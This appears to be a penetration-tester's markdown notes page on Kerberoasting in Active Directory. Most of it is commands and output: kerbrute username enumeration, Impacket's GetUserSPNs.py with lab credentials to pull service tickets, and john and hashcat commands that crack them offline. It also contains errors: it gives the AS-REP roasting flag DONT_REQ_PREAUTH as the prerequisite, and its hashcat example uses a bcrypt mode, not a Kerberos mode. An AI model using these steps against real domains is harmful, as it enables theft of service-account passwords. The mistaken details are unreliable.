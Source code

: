 # Kerberoasting

Kerberoasting is a type of attack against Microsoft Active Directory environments that involves extracting service account passwords from Kerberos tickets. Service accounts are often used to run automated processes and scheduled tasks, and because they often have high privileges within an organization, they can be a valuable target for attackers.

The basic method of kerberoasting involves requesting a ticket for a service account, then cracking the encrypted password hash that is included in the ticket.

# Pre-Requisites

Kerberoastable users need to have the `DONT_REQ_PREAUTH` flag set.

``` 
$   kerbrute userenum -d MCDONALDS.LOCAL SecLists/Usernames/xato-net-10-million-usernames.txt --dc dc-01.htb                                                            


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/08/23 - Ronnie Flathers @ropnop

2023/02/08 14:26:09 >  Using KDC(s):
2023/02/08 14:26:09 >   10.10.10.175:88

2023/02/08 14:26:45 >  [+] VALID USERNAME:       administrator@MCDONALDS.LOCAL
2023/02/08 14:30:08 >  [+] VALID USERNAME:       dudi@MCDONALDS.LOCAL
2023/02/08 14:30:32 >  [+] VALID USERNAME:       sagi@MCDONALDS.LOCAL
2023/02/08 14:31:49 >  [+] VALID USERNAME:       ido@MCDONALDS.LOCAL
2023/02/08 14:48:58 >  [+] VALID USERNAME:       overlord@MCDONALDS.LOCAL
```

# SPNs

If a user account has an SPN, we can request a TGS on his behalf, which we can crack offline to get the password.

```
python GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168 -target-domain scrm.local -dc-host dc1.scrm.local -outputfile kerberoastables.txt
```
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
Cracking the hash:
```
john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
hashcat -a 0 -m 3200 kerberoastable.txt /usr/share/wordlists/rockyou.txt
# -m flags
  19600 | Kerberos 5, etype 17, TGS-REP
  19700 | Kerberos 5, etype 18, TGS-REP
  13100 | Kerberos 5, etype 23, TGS-REP
```
